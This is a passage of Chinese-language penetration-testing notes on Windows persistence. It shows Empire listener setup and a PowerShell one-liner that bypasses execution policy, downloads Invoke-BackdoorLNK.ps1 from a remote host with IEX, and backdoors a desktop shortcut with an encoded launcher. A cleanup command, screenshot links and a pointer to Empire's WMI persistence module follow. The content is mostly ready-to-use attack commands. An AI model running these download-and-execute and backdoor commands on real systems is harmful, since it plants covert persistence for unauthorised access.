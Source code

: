   #### LNK后门
	Empire
	Empire> set Host http://192.168.1.150
	Empire> set Port 8080
	>launcher powershell Listener's Name
	生成后只使用Base64的代码。
	>powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-BackdoorLNK.ps1');Invoke-BackdoorLNK -LNKPath 'C:\Users\Administrator.DC\Desktop\Easy CHM.lnk' -EncScript Base64编码"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/539.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/540.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/541.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/542.png)

	清除后门
	>powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-BackdoorLNK.ps1');Invoke-BackdoorLNK -LNKPath 'C:\Users\Administrator.DC\Desktop\Easy CHM.lnk' -CleanUp"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/543.png)
  #### WMI
	Empire>powershell/persistence/elevated/wmi